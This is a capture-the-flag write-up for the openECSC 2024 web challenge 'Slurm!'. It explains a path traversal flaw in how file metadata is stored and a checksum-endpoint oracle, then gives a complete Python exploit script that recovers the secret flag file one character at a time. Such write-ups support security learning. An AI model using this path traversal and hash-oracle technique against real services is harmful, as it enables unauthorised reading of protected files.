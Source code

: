 # openECSC 2024 - Final Round

## [web] Slurm! (41 solves)

Welcome to slurm's official website, here you're going to learn a lot of new reasons to drink slurm. And please don't ask about our secret recipe... some secrets must remain secrets.

Site: [http://slurm.challs.open.ecsc2024.it](http://slurm.challs.open.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>

## Overview

The challenge allow a user to download a set of predetermined files and to upload a txt file with suggestion about slurm marketing plan:

![marketing-download](./writeup/marketing-download.png)

![marketing-upload](./writeup/marketing-upload.png)

Let's look closer to api implementation, the backend server offers the following endpoints:
* `GET /files` -> Download a list of files metadata which represents the files offered in website's homepage
* `GET /files/<id>` -> Download the file with specified `id`
* `POST /files` -> Create a file
* `PUT /files/<id>` -> Create a file with the specified `id`
* `GET /files/<id>/checksum` -> Get the checksum for the file specified by `id`

There's a lot of constraints which disallow a user to break files integrity or to obtain secrets, like:
* It is not possible to overwrite a marketing file
* It is not possible to download the secret recipe
* It is not possible to perform path traversal, `./` in filename are filtered

The target is to obtain the secret recipe, which obviously is the flag.

## Solution

By looking closer to `FileMetadata.write`:

```py
def write(self, collection, content):
    if self.id in forbidden_ids and not self.init:
        raise ValueError("Use of forbidden id")

    print(collection.insert_one(vars(self)))

    if "./" in self.path:
        raise PathTraversalAttemptDetectedException()
    if len(content) > 200:
        raise FileTooBigException()
    with open(self.path, "w") as f:
        f.write(content)
```

metadatas are inserted in database even if a path traversal attempt is detected,
and even if the endpoint `/files/<id>` checks that the path doesn't contains
the secret recipe filename:

```py
if files[-1]["metadata"]["filename"] in res["filename"]:
    return "", 403
```

this check isn't performed by the endpoint `/files/<id>/checksum`. This
with the query parameter `offset` can be used to perform a oracle. More
specifically, a binary search algorithm can be used to find the exact length
of the secret recipe file, and then to guess all the characters from the
last one.

## Exploit

```py
import os
import time
import string
import hashlib
import requests
from uuid import uuid4

BASE_URL = os.getenv("BASE_URL", "http://slurm.challs.open.ecsc2024.it/api/v1")

# Exploit path traversal
file_id = str(uuid4())
requests.put(
    f"{BASE_URL}/files/{file_id}",
    json = {
        "author": "challenger",
        "filename": "../company/secretrecipe.txt",
        "description": "exploit",
        "content": "exploit"
    }
)

# Find flag length
desired_result = hashlib.md5(b'}').hexdigest()
empty = hashlib.md5(b'').hexdigest()
result = b''
i = 0
f = 200
offset = (i + f) // 2
while True:
    result = requests.get(f"{BASE_URL}/files/{file_id}/checksum?offset={offset}").json()["checksum"]
    if result == desired_result:
        break
    if result == empty:
        f = offset
        offset = (i + f)//2
    else:
        i = offset
        offset = (i + f)//2

print(f"FLAG HAS {offset} characters")

#recover flag
flag = "}"
while offset > 0:
    offset -= 1
    desired_result = requests.get(f"{BASE_URL}/files/{file_id}/checksum?offset={offset}").json()["checksum"]
    for c in string.printable:
        tmp_flag = f"{c}{flag}"
        print(tmp_flag, end="\r")
        if hashlib.md5(tmp_flag.encode()).hexdigest() == desired_result:
            flag = tmp_flag
            break
    time.sleep(.1)
print()
```